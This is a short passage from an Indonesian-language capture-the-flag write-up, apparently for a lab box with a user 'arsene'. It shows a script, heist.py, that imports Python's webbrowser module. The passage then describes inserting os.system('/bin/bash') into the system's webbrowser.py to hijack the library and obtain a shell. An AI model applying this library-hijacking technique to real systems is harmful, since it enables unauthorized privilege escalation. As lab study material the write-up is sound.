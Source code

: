 ![](Pasted%20image%2020220323194533.png)

Dari hasil scan diatas kita lihat "/usr/lib/python3.9/webbrowser.py".

Jika kita lihat ke direktori home user "arsene" maka disana akan ada file "heist.py"
```sh
cat /home/arsene/heist.py
```

```python
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
```
"heist.py" ini menggunakan module "webbrowser.py". "webbrowser.py" ini bisa kita ubah dalamnya agar kita bisa melakukan *privilege enumeration*

kita selipkan ini ke "/usr/lib/python3.9/webbrowser.py"
```python
os.system ("/bin/bash")
```

